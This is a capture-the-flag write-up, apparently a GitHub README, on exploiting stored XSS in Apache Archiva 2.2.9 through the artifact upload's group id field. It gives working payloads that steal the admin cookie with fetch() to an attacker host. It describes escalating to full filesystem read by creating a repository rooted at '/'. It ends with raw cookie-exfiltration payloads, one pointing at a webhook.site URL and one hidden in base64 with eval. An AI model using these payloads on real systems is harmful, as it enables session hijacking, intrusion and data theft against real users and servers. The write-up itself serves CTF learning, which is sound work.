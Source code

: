 
Apache Archiva is a repository management software that helps us to take care of our personal as well as enterprise build repository.
Here we are using the version 2.2.9
We can login as a normal user using the credentials:
user: ctf
pass: H4v3Fun

As there is a server and an admin bot, this challenge can probably be an xss challenge
Looking at the source code, we can see that the admin visits, /repository/internal. So, we should try to make an entry to this page, but a normal user has very less privileges.
So, there is an upload functionality here, (in upload artifact). So, this page allows to upload a file to already existing repository.

Lets try giving a simple alert(1) payload to see if we have xss:
repo id: internal
group id : `<img src=a onerror=alert(1)>`
artifact: 1
version: 1
packaging : 1
upload a random file: then save.
Go to http://localhost:8055/repository/internal/ we can see we have xss

Now our goal is to steal the admin cookie and get the admin privileges which has lot more functionalitites like creating a repository.
To steal admin cookie:
`<img src=a onerror="fetch(String.fromCharCode(47)+String.fromCharCode(47)+'{my_host}:{my_port}'+String.fromCharCode(47)+btoa(document.cookie))">`

After getting the admin priveleges: create a new repo
id=root
name=root
directory=/
Accessed via http://localhost:8055/repository/root/ giving us complete read access to the entire system.


<br>
<br>
<script>document.write('<img src="https://webhook.site/5f41dc6d-6532-41ec-90c5-a597ad8975b5?c='+document.cookie+'" />');</script>

x"><img%20src="x"%20onerror="javascript:eval(atob('PHNjcmlwdD4KZG9jdW1lbnQud3JpdGUoJzxpbWcgc3JjPSJodHRwczovL3dlYmhvb2suc2l0ZS81ZjQxZGM2ZC02NTMyLTQxZWMtOTBjNS1hNTk3YWQ4OTc1YjU%2FYz0nK2RvY3VtZW50LmNvb2tpZSsnIiAvPicpOwo8L3NjcmlwdD4='))">

